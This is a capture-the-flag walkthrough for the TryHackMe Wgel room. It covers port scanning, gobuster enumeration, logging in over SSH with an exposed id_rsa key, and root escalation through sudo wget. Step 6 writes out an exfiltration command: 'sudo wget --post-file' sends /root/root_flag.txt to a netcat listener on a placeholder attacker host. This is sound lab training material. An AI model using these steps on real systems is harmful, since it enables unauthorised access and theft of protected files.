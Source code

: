 # TryHackMe - Wgel CTF Walkthrough

**Solved by:** Prince  
**Date:** 2025-09-30  
**Difficulty:** Easy  

---

## 📝 Room Contents
- **Task 1:** User flag  
- **Task 2:** Root flag  

---

## 🔧 Tools Used
- Nmap  
- Dirsearch  
- Gobuster  
- GTFOBins  

---

## 🚩 Walkthrough

### Step 1: Initial Recon and Port Scan
We begin with a port scan using `nmap`:

```bash
nmap -sV -sC -vvv -oN nmap-scan <IP>

Scan Results:

22/tcp → SSH

80/tcp → HTTP (Web Server)


With SSH and HTTP open, we first investigate the web server.


---

Step 2: Exploring the Web Server

Browsing to http://<IP>/, we see a career opportunities website.
To find hidden directories, we brute-force with Gobuster:

gobuster dir -u http://<IP>/ -w /path/to/wordlist

Discovery: A hidden directory .ssh/

Visiting http://<IP>/.ssh/ revealed an id_rsa private key.


---

Step 3: SSH Access Using id_rsa

1. Download the id_rsa file.


2. Fix permissions:

chmod 600 id_rsa


3. Log into the target machine via SSH:

ssh -i id_rsa jessie@<IP>




---

Step 4: Obtaining the User Flag

Once inside as jessie, navigate to the home directory:

cd /home/jessie
cat user_flag.txt

✅ User flag captured.


---

Step 5: Privilege Escalation

Check sudo permissions:

sudo -l

It shows that wget can be run with elevated privileges.


---

Step 6: Exploiting wget to Gain Root Flag

We can use wget to read the root flag file by exfiltrating it to our listener.

1. Start a netcat listener on your local machine:

nc -lvnp 1234


2. On the target, run:

sudo wget --post-file=/root/root_flag.txt http://<YOUR-IP>:1234


3. The contents of /root/root_flag.txt will be sent to your netcat terminal.



✅ Root flag captured.


---

🎯 Summary

Performed initial recon with nmap.

Found .ssh/ directory via Gobuster → retrieved id_rsa.

Gained SSH access as user jessie.

Captured User Flag.

Used wget privilege escalation to capture the Root Flag.



---

📌 Flags

User Flag: 🎉

Root Flag: 🔑

